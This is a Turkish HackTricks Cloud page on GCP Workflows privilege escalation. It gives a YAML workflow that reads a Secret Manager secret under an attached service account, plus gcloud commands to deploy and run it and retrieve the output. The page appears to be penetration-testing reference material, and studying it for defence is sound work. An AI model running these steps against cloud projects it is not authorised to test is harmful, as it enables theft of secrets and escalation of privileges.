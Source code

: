 # GCP - Workflows Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Workflows

Temel Bilgiler:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Bildigim kadarıyla, bir Workflow'a bağlı SA'nın kimlik bilgilerini içeren metadata uç noktasına erişim ile bir shell almak mümkün değil. Ancak, Workflow içinde gerçekleştirilmesi gereken eylemleri ekleyerek SA'nın izinlerini kötüye kullanmak mümkündür.

Bağlayıcıların belgelerini bulmak mümkündür. Örneğin, bu [**Secretmanager bağlayıcısının sayfası**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**'dır.** Yan menüde birçok başka bağlayıcı bulmak mümkündür.

Ve burada bir sırrı yazdıran bir bağlayıcı örneği bulabilirsiniz:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI'den Güncelleme:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Eğer web erişiminiz yoksa, bir Workflow'un çalıştırılmasını tetiklemek ve görmek mümkündür: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Önceki yürütmelerin çıktısını kontrol ederek hassas bilgileri arayabilirsiniz.
{% endhint %}

İzin verilmediği için `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` gibi bir hata alsanız bile, iş akışı oluşturulmuştur.

### `workflows.workflows.update` ...

Bu izin ile `workflows.workflows.create` yerine, zaten mevcut bir iş akışını güncellemek ve aynı saldırıları gerçekleştirmek mümkündür.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** bizi **takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
